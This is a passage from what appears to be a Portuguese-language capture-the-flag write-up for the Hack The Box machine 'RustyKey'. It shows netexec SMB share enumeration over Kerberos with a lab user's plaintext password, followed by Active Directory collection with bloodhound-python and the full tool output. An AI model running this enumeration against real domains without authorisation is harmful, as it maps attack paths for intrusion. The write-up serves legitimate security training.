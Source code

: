 O `Faketime` irá sincronizar apenas o horário da shell atual com o horário do Kerberos. Com o horário sincronizado, podemos usar novamente o `Netexec`:
```bash
nxc smb "dc.rustykey.htb" -u 'rr.parker' -p '8#t5HE8L!W3A' --shares -k

SMB         dc.rustykey.htb 445    dc               [*]  x64 (name:dc) (domain:rustykey.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc.rustykey.htb 445    dc               [+] rustykey.htb\rr.parker:8#t5HE8L!W3A 
SMB         dc.rustykey.htb 445    dc               [*] Enumerated shares
SMB         dc.rustykey.htb 445    dc               Share           Permissions     Remark
SMB         dc.rustykey.htb 445    dc               -----           -----------     ------
SMB         dc.rustykey.htb 445    dc               ADMIN$                          Remote Admin
SMB         dc.rustykey.htb 445    dc               C$                              Default share
SMB         dc.rustykey.htb 445    dc               IPC$            READ            Remote IPC
SMB         dc.rustykey.htb 445    dc               NETLOGON        READ            Logon server share 
SMB         dc.rustykey.htb 445    dc               SYSVOL          READ            Logon server share 
```

Porém não encontramos nada interessante nas shares. Irei partir pra enumeração do AD, estarei usando o [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) para fazer a enumeração e gerar o zip:
```bash
bloodhound-python -d rustykey.htb -ns 10.10.11.75 -u rr.parker -p '8#t5HE8L!W3A' -k -c ALL --zip

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: rustykey.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 16 computers
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 12 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 10 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: dc.rustykey.htb
INFO: Done in 00M 31S
INFO: Compressing output into 20251030000528_bloodhound.zip
```
